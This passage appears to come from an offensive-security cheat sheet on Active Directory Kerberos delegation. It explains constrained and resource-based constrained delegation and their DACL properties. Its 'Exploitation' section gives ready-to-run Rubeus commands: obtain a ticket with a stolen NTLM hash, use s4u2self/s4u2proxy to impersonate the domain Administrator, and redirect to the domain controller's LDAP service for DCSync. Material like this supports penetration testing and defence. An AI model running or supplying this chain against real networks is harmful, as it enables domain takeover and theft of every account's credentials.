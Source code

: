 PowerShell

#### Constrained delegation <a href="#constrained-delegation" id="constrained-delegation"></a>

Constrained delegation can be set on the _frontend server_ (e.g. IIS) to allow it to delegate to _only selected backend services_ (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

**NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

**Exploitation**

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```powershell
# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

PowerShell

#### Resource-based constrained delegation <a href="#resource-based-constrained-delegation" id="resource-based-constrained-delegation"></a>

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
